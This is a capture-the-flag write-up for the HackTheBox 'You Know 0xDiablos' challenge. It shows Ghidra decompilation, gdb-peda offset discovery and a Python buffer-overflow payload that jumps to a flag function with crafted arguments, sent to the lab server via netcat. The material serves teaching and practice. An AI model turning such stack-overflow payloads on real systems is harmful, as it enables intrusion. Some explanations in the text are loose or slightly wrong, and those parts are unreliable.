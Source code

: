 ```yaml
---
title: HackTheBox - Pwn - You Know 0xDiablos
date: 2022-03-01 12:00:00 +/- 0000
categories: [HackTheBox,Pwn,BinaryExploit]
author: Connor Weeks-Pearson
tags: [pwn,0xdiablos]
image: /assets/img/Icons/pwn/pwn.png
---
```


I've never done a binary exploit here on HTB, the first exposure i had to them was at university yeara ago, but it's always something i've found interesting, so here goes! I will be using google for help because how else am i  going to learn!

Description: I missed my flag

*** IP: 139.59.183.98:32124 ***
*** Files: 1 - vuln ***

---

## Analysis

First thing lets discover the type of file `vuln` is:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped

</pre>

`vuln` is an ELF 32-bit executable. Executing the file, the programme outputs some  text and then waits for a reply. It then redirects the input to the output.

<pre>┌──(kali㉿kali)-[~/Desktop]
└─$ ./vuln
You know who are 0xDiablos: 
test 
test
</pre>

Now it's time to use ghidra!

---

## Ghidra

Having never used ghidra before this was very fun! After loading the file into Ghidra,  i had a look at the different functions. Of these, 3 stood out: vuln, flag and main. 

<div style="page-break-after: always;"></div>

### vuln()

```c++
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```

So what we can see here is there is an allocated 180 character array, that will hold the input using `gets` and then print it. After some googling, gets was replaced with fgets due to buffer overflow attacks.

### flag()

```c++
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function is a bit different. A char array size of 64 is allocated as `local_50`, reads the file "flag.txt" and saves it to `local_50`. If function params are the same as `0x21524111` and `0x3f212ff3`, it will print the content of `local_50`.

The assembly code for 0x21524111 is `0xdeadbeef` and 0x3f212ff3 is `0xc0ded00d`.

---

## Exploiting
I will be using gdp-peda to exploit the `gets` function using a buffer overflow to jump into `flag()` to get the flag. Lets load the file, and start. We should hit an automatic breakpoint.

```as
gdb-peda$ start
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xf7fb1a28 --> 0xffffd1ec --> 0xffffd3c1 ("COLORFGBG=15;0")
EBX: 0x0 
ECX: 0xffffd140 --> 0x1 
EDX: 0xffffd174 --> 0x0 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd120 --> 0xffffd140 --> 0x1 
EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)                                                                           
[-------------------------------------code-------------------------------------]                                                                          
   0x80492bc <main+11>: mov    ebp,esp
   0x80492be <main+13>: push   ebx
   0x80492bf <main+14>: push   ecx
=> 0x80492c0 <main+15>: sub    esp,0x10
   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
   0x80492c8 <main+23>: add    ebx,0x2d38
   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]                                                                          
0000| 0xffffd120 --> 0xffffd140 --> 0x1 
0004| 0xffffd124 --> 0x0 
0008| 0xffffd128 --> 0x0 
0012| 0xffffd12c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd130 --> 0xf7faf000 --> 0x1e9d6c 
0020| 0xffffd134 --> 0xf7faf000 --> 0x1e9d6c 
0024| 0xffffd138 --> 0x0 
0028| 0xffffd13c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]                                                                          
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x080492c0 in main ()
```

Knowing there is a 180 character buffer, i created a file containing 200 characters and saved it as in.txt, which will be used to discover the EIP offset.

```as
db-peda$ pattern_create 200 in.txt
Writing pattern of 200 chars to filename "in.txt"
gdb-peda$ r < in.txt
Starting program: /home/kali/Desktop/vuln < in.txt
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffd110 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
...
```

We can see the EIP address is `0x41417741`, so lets find the offset, so that we can control the EIP.

```as
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now lets get the address of `flag()`

```as
gdb-peda$ disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
   0x080491e3 <+1>:     mov    ebp,esp
   0x080491e5 <+3>:     push   ebx
   0x080491e6 <+4>:     sub    esp,0x54
   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
...
```

The address is 0x080491e2, which will translate to `\xe2\x91\x04\x08`

## Python Buffer Overflow

I will be using python to try and jump into the function `flag()`

<pre>python
┌──(kali㉿kali)-[~/Desktop]
└─$ python -c "print('A'*188 + '\xe2\x91\x04\x08')" | ./vuln           139 ⨯
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
</pre>

It successfully jumped into the code function. Now i know i need to pass the args into the function, and so some googling commenced. I read about `DUMB` addresses, in which the arguements called need to be supplied in reverse order. These parameters  are 0xdeadbeef and 0xc0ded00d, which when reversed turns into:

`\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

This turns the entire python script into:

`python -c "print('A'*188 + '\xe2\x91\x04\x08' + 'AAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | > exploit.txt`

## Deploying the Exploit
All that is needed now is to deploy the exploit to the docker server using netcat. This was done by the following:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ cat exploit.txt | nc 139.59.183.98 32124
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�DUMBﾭ�
HTB{flag}  
</pre>
